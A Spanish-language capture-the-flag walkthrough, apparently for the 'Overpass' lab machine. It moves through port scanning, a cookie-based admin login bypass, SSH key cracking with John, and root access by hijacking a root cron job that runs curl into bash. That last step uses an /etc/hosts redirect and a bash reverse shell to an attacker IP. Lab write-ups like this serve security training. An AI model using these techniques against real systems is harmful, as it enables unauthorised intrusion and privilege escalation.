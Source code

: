 # Summary
- IP: 10.10.113.192
- Ports: 22,80
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
	-  80 -> Golang net/http server

# Recon
- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` 
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
```

- Escaneo de directorio de página web:

```
$sudo gobuster dir -u 10.10.249.223 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100
```

- Entramos al directorio "/admin" y nos encontramos con un login, analizamos el código fuente y vemos que hay código javascript, analizamos el archivo "login.js" en búsqueda de vulnerabilidades, y vemos el siguiente fragmento:

```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

- Por lo que vemos, se está validando el logeo con una simple condicional la cual toma como referencia y modifica la Cookie de sesión, siendo que al indicar una cuenta válida, la cookie se llamará "SessionToke"; sabiendo esto, podemos explotar esto creando una cookie en firefox con el nombre de "SessionToken" y recargando la página, ya estaríamos dentro como admin.


- Dentro de la página de amin vemos un usuario y una private key SSH, la cual intentaremos romper con John:

```
$python ssh2john.py rsa_james > hash_james.hash 
```

- Obtenemos la contraseña, accedemos via ssh:

```
$ssh -i rsa_james.txt james@10.10.249.223
```

- Obtenemos la primera flag y vemos un archivo todo.txt, lo analizamos y encontramos lo siguiente:

 Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website

- Mencionan una script, buscamos en las tareas automatizadas (crontab) para analizar en qué consiste dicha script:

```
cat /etc/crontab
```

- Vemos la tarea: ```root curl overpass.thm/downloads/src/buildscript.sh | bash``` lo cual nos indica que cada cierto tiempo como ROOT está actualizando el código en bash de la script descargando desde la página overpass; comprobamos que tenemos acceso de escritura del archivo /etc/hosts y lo modificamos para que en lugar de accede a la página "overpass.thm" nos redireccione a nuestra máquina atacante:

```
10.18.101.123 localhost
10.18.101.123 overpass-prod
10.18.101.123 overpass.thm
```

- Ahora en nuestra máquina, nos creamos el directorio y archivo /downloads/src/buildscript.sh y le insertamos una reverse shell:

```
mkdir /downloads/src/
nano buildscript.sh
```

```
bash -i >& /dev/tcp/10.18.101.123/443 0>&1
```

- Nos montamos un servidor http en el puerto 80 en el directorio base de la máquina atacante:

```
$sudo python3 -m http.server 80
```

- Nos ponemos en escucha en el puerto 443, esperamos a que la tarea ejecute el comando inyectado y accedemos a la máquina como ROOT.



